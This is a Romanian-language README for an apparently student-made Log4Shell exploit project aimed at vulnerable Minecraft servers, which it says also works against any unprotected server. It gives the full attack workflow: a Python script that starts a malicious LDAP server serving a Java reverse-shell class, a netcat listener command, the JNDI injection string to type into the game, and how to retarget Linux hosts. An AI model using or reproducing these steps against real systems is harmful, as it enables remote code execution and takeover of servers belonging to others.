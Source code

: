 # Log4shell

## Descriere

Acest proiect exploateaza vulnerabilitatea Log4shell. Este destinat folosirii lui pentru a ataca un server vulnerabil de Minecraft, joc video foarte popular. Insa poate fi folosit pentru atacul oricarui server neprotejat de acest atac.

Proiectul este capabil sa initieze o conexiune de tip reverse shell.

## Dependinte

### Sistemul atacatorului

Proiectul este construit sa functioneze pe un sistem Kali Linux. Acesta are deja instalate urmatoarele programe necesare: Python3, Netcat, Git.

Pentru a instala Kali accesati [pagina oficiala](https://www.kali.org/docs/installation/hard-disk-install/) a sofwareului.

In reproducerea atacului am folosit [Virtualbox](https://www.virtualbox.org/wiki/Downloads) pentru a virtualiza masina de Kali Linux. [Tutorial](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/) 

In ambele scenarii de instalare a sistemului Kali trebuie asigurata conexiunea la retea cu masina dorita sa fie atacata.

### Sistemul atacatat

In fisiere se pot regasii pachetele Java vulnerabile pentru Windows si Linux(Debian). In functie de sistemul ales se descarca aplicatia respectiva (Fisierul .tar.gz pentru Debian, Fisiserul .exe pentru Windows).

Pentru versiunea Minecraft vulnerabila se recomanda descarcarea de pe [acest link](https://mcversions.net/download/1.8.8). Acest fisier .jar va fi executat pe masina vulnerabila dorita. [How to](https://help.minecraft.net/hc/en-us/articles/360058525452-How-to-Setup-a-Minecraft-Java-Edition-Server)

## Executarea exploitului

Dupa ce se cloneza acest repository, se intra in folderul lui.

Urmatoarea caseta explica cum trebuie executat scripul de Python:
```
usage: application.py [-h] [--ip IP] [--port PORT]
                      [--nume_clasa NUME_CLASA]

Un script care primește IP-ul, portul și numele clasei java. Usage: python3
application.py --ip <IP> --port <Port> --nume_clasa <Nume>

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Adresa IP a serveului LDAP
  --port PORT           Portul Netcat
  --nume_clasa NUME_CLASA Clasa java
```
<IP> - Ip-ul masinii atacate
<Port> - Portul unde este acultata conexiunea reverse shell (ex:9999)
<Nume> - Numele dorit pentru clasa java reverse shell generata

Dupa rulare, va exista un server malitios valabil pentru a injecta clasa java ce initiaza o conexiune reverse shell.

Observatii!

Scriptul este configurat pentru a ataca o masina Windows. Pentru atacul unei masini Linux trebuie schimbat in script programul Java. Se cauta in fisier "cmd.exe" si se inlocuieste cu "/bin/bash".

Netcat

Pornirea unei instante separate netcat. Asculta pentru o conexiune reverse shell.
```
nc -lvnp 9999
```

Aici va fi gasita linia de comanda a sistemului atacata

## Injectare si rezultate

In consola, unde scriptul python ruleaza, se va afisa comanda necesara ce trebuie introdusa in sistemul vulnerabil. Cum ar trebuii sa arate comanda: ```${{jndi:ldap://{args.ip}:1389/{args.nume_clasa}}```

Pentru serverul de Minecraft trebuie sa ne conectam cu un client. Dupa conexiunea la sever a clientului se introduce comanda anterioara.

In final ar trebui sa avem o conexiune de terminal in fereastra cu Netcat.

## Autor

Gheorghita Dan 
@Universitatea Politehnica Timisoara